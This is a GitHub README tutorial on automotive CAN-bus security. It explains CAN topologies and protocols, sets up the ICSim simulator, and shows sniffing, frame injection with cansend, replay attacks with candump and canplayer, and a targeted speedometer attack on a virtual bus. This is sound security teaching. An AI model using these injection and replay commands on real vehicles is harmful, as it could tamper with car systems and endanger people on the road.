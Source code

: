 # Automotive-Security
On the New era of self driving technology automotive security has become one of the most interesting field for Security researchers. In this mordern world when you drive a car, you are driving a very powerfull computer that happens to have wheels and steering. Today there is no such component in a car that is not being moderated by a Computer. Hence the Risk of Being Exploited also increses.

## Overview

- Network Topology
- Can-Bus
  - it's Other Varients 
- SocetCan
  - Kayak
- ICSim
- Hacking CAN-Bus
  - Sniffer
  - CAN Sender 
  - Replay Attack
  - Targeted Node Attack
  
## Network Topology
- Vehicles nowadays have dedicated ECU for working of each of Components such as Tire Pressure Monitor Systems, Temprature and Infortainment Control, Shaders Controls, Instrument Clusters etc. The Major Network Topologies used in CAN Networks are:
  - Bus Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414549-41b24b76-31d8-41f8-b46b-cc07ad614091.png" width ="50%">
  
  - Ring Topology
  <img src = "https://user-images.githubusercontent.com/100958162/221414835-44a2237b-cd2a-4b77-8451-e7cdb0baa36e.png" width = "50%" height = "200" >

  - Star Topology
  <img src="https://user-images.githubusercontent.com/100958162/221414844-5f38e79e-910f-4bf4-9f74-00f41b093edd.png" width="50%" height ="50%">
  
  **However the Network paradigm used inside most of the Vehicles nowadays is CAN-Bus Topology**
  <img src ="https://user-images.githubusercontent.com/100958162/221415320-84b8877a-e154-46d2-a09f-0cde3f7dce1c.png" width ="60%" height="300">
  
## CAN-Bus
Controlled Area Network or CAN Network is like the Nervous system of a car responsible for it's entire working and intervehicular communication. Since CAN-Bus follows bus topology each nodes are interconnected to a single bus line making it possible in a two way communication between any two nodes at a time.A node brodcastes a CAN signal to all the other node, the corresponding node with the matching destination adress captures the data. 
A Serial CAN Communication 

<img src="https://user-images.githubusercontent.com/100958162/221421092-2629f478-e5b4-4e2f-ba47-4dfae6ec2f36.png" width="50%" height="300">
- Can Networks can be interfaced using OBD ports, Usually they are present below the steering column or hidden somewhere in the dash.
- There are mainly two types of CAN Data 
  - Standard CAN PAckets 
  - Extended CAN Packets

#### Apart from CAN there are also other Protocols that are made by diffrent Brands are used for handiling diffrent technical situations inside the Car
- ISO-TP Protocol
  - Used to send CAN data Packets Exceeding 8byte of the Standard CAN protocol
- CanOpen Protocol
  - Changed the 11byte arbiary Id to a combination of 4bit function cod and 7bit Node ID, therefore csn be used for Precise Data Transfer
- The GMLAN Bus 
  - Uses Single Wire Low Speed and Double Wire High Speed Bus
- The SAEJ1850 Protocol
  - Old and Slower than Can But Easy to Imlement 
- The Keyword Protocol
  - Communicates through KWP2000 line(pin 7), the data may contain upto 255 byte
- The Local InterConnect Network Protocol
  - Faster than Can since it doesn't contain any Identifier ID, a single master Controls all the Slave Nodes
- The MOst Protocol
  - Media Oriented System Transport designed for multimedia devices, usually used to acces any internal mic or output Displays in a IVT Console or any hardware components that has a media console
- The Flex Ray Bus
  - High Speed Data Transfer Upto 10Mbps, Uses twisted wires to communicate, but can also used dual-channel communication.
- Automotive Ethernet

## SocketCan 
SocketCan is a Linux Utility that combines/unifies all the CAN tools and it's diffrent interfaces to a uniques interface. It Can also be used to create tools for supporting CAN, that enables us to try diffrent Options on the Persisting Can Networks. SocketCan ties user to the Linux Netwroking Kernal making it possible for creating a sperate interface for unifying all the CAN Networks.
A detailed writeup on Installing and Configuring SocketCan is given on it's Official [Github](https://github.com/linux-can/socketcand)

### Kayak 
- [Kayak](http://kayak.2codeornot2code.org/) is a Java based GUI Tool Used for Monitoring and Diagnosing CAN Data using SocketCan Interfaces. Kayak links with Open Maps for mapping and can handle CAN defenitions. Since it is Java Based app it can run on any platform. Kayak Latest [Realese](https://github.com/dschanoeh/Kayak/releases/tag/untagged-3597039ad20ce9798a99) 

## ICSim
To practice CAN-Bus exploitation we will be using an ICSim package from Craig Smith. ICSim includes a dashboard with speedometer, door lock
indicators, turn signal indicators and a control panel. The control panel allows the user to interact with the simulated automobile network, applying
acceleration, brakes, controlling the door locks and turn signals.
### Installing ICSim

You will need:
* SDL2
* SDL2_Image
* can-utils

You can get can-utils from github or on Ubuntu you may run the follwoing

```
  sudo apt-get install libsdl2-dev libsdl2-image-dev can-utils  
```

You can run the following commands to setup a virtual can interface

```
  sudo modprobe can
  sudo modprobe vcan
  sudo ip link add dev vcan0 type vcan
  sudo ip link set up vcan0
```

If you type ifconfig vcan0 you should see a vcan0 interface. A setup_vcan.sh file has also been provided with this
repo.

**Usage**

Default operations:

Start the Instrument Cluster (IC) simulator:

```
  ./icsim vcan0
```

Then startup the controls

```
  ./controls vcan0
```
<table align="center">
<tr>
<td><img src="https://user-images.githubusercontent.com/100958162/221443075-da04eb22-d9a1-48c4-b414-d71bff62f33a.png" width ="100%" height="80%"></td>
<td><img src="https://user-images.githubusercontent.com/100958162/221443109-0245da80-a0f4-47a2-b0fc-8660d29b5fb3.png" width="50%" height="50%"></td>
</tr>
</table>

## Hacking CAN-Bus
- As previously stated, the CAN-Bus communication protocol utilizes a broadcasting mechanism to share data packets, allowing each node within the network to transmit messages to one another. In order to achieve this, a message is broadcasted to the entire server by one of the nodes, and the source node captures it while all other nodes disregard it.
- By exploiting this feature, an attacker within the network can potentially send data to any other node, creating a vulnerability that could lead to a fault injection attack. 

### Sniffing CAN Data
- Setup the Virtual CAN network by running the setup_vcan.sh file in ICSim
```sh
./setup_vcan.sh
```
- Initialise the Controller and the Vrtual Instrument Cluster and Try to Send Data using the Controller 
```sh
./icsim vcan0
./controller vcan0
```
- Sniffing the Data using cansniffer 
```cansniffer vcan0````
``` cansniffer -c vcan0```
- You can use the -c argument to shoe the changing bits in the data in a diffrent color
 
 The Sniffed Can Data Should Look like this:-
 ```sh
 81|ms | ID  | data ...     < vcan0 # l=20 h=100 t=500 slots=36 >
00015 | 039 | 00 2A                   .*
00009 | 095 | 80 00 07 F8 00 00 00 31 .......1
00009 | 133 | 00 00 00 00 98          .....
00009 | 136 | 00 02 00 00 00 00 00 1B ........
00009 | 13A | 00 00 00 00 00 00 00 0A ........
00009 | 13F | 00 00 00 05 00 00 00 00 ........
00009 | 143 | 6B 6B 00 C2             kk..
00009 | 158 | 00 00 00 00 00 00 00 0A ........
00009 | 161 | 00 00 05 50 01 08 00 0D ...P....
00009 | 164 | 00 00 C0 1A A8 00 00 22 ......."
00009 | 166 | D0 32 00 09             .2..
00009 | 17C | 00 00 00 00 10 00 00 03 ........
00008 | 183 | 00 00 00 0D 00 00 10 0E ........
00501 | 188 | 00 00 00 00             ....
00009 | 18E | 00 00 4D                ..M
00009 | 191 | 01 00 10 A1 41 00 38    ....A.8
00020 | 1A4 | 00 00 00 08 00 00 00 2F ......./
00019 | 1AA | 7F FF 00 00 00 00 68 2F ......h/
00019 | 1B0 | 00 0F 00 00 00 01 66    ......f
00020 | 1CF | 80 05 00 00 00 0F       ......
00020 | 1DC | 02 00 00 0C             ....
00040 | 21E | 03 E8 37 45 22 06 2F    ..7E"./
00015 | 244 | 00 00 00 01 6A          ....j
00039 | 294 | 04 0B 00 02 CF 5A 00 2C .....Z.,
00106 | 305 | 80 35                   .5
00100 | 309 | 00 00 00 00 00 00 00 B1 ........
00099 | 320 | 00 00 21                ..!
00099 | 324 | 74 65 00 00 00 00 0E 29 te.....)
00099 | 333 | 00 00 00 00 00 00 2D    ......-
00099 | 37C | FD 00 FD 00 09 7F 00 29 .......)
00300 | 405 | 00 00 04 00 00 00 00 1A ........
00300 | 40C | 03 31 33 38 34 39 00 0D .13849..
00300 | 428 | 01 04 00 00 52 1C 10    ....R..
00300 | 454 | 23 EF 09                #..
01260 | 5A1 | 96 00 00 00 00 00 62 10 ......b.
```
- Analysing the CAN Data Packet 

``` 188#000000``` 
- The above metnioned packet is used fo controlling the blinkers in the CAR, the arbitary ID of the packet is 188 denoting it stands for blinkers, the data is of 8 bit ```00 00 00 00```
- Now if the first byte in the data changes to **02** it denotes that the Left Blinker is turned On and if the first byte is 01 it denotes the left blinker is turned on.
- Any attakcer can get in the CAN-network using many attacking Vactors like OBD-II port or by attacing their IVT etc.

## Sending CAN Data/ Replay Attacks 
- CAN-utils provide an tool names cansend inorder to send CAN packets to the network 
- Below command send a data packets that turns on left Blinker
```sh
cansend vcan0 188#02000000
```
- This opens an lot of possible ways to attack the CAR after getting into the it's Network

## Replay Attack

Canplayer is a tool that is commonly used alongside CAN communication, enabling the transmission of various CAN packets to a single or multiple CAN ports. However, this functionality also introduces the possibility of a replay attack, in which an attacker captures and subsequently retransmits a previously recorded CAN packet in order to cause malicious behavior within the network. 
- Usage canplayer -I <infile> <interface_name>
```sh 
canplayer -I <infile> <interface_nmae>
```
- Infile Can be generated using ```candump``` command
```sh
candump -l vcan0
```
This Logs the data into a file. Which can be Later Replayed Using Canplayer
```sh
canplayer -I candump-2023-02-27_211403.log 
```
## Targeted Node attack
- In this attack we target a single node to be exploted.
- On Ananlysing the Data having the arbitary ID of the Target we identify the specific byte in Data which when changed alters the working of the Sensors or correspoding activity in the Car.
- On the Example below we are targeting the NODE that controls the Speed and RPM of the Cluster
  - The ID of the Dat is 244 and the last 3 bytes of data controls the actual speed in hex format.
  - I created a [script](https://github.com/Drupad-DeV/Automotive-Security/blob/main/speed.sh) that automates this whole process. 
  
